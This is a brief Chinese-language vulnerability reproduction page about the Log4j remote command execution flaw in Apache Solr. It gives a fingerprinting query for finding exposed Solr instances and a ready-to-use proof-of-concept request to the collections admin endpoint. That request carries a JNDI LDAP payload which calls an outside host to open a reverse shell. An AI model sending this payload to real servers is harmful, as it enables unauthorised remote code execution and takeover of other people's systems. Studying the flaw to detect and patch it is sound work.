 # Apache Solr Log4j组件 远程命令执行漏洞

# Apache Solr Log4j组件 远程命令执行漏洞

## 漏洞描述

Apache Solr Log4j组件 远程命令执行漏洞，详情略

## 漏洞影响

```
Apache Solr
```

## 网络测绘

```
app="APACHE-Solr"
```

## 漏洞复现

登录页面

![](/images/202205251622273.png)

验证POC

```
/solr/admin/collections?action=${jndi:ldap://xxx/Basic/ReverseShell/ip/87}&wt=json
```

![](/images/202205251622876.png)

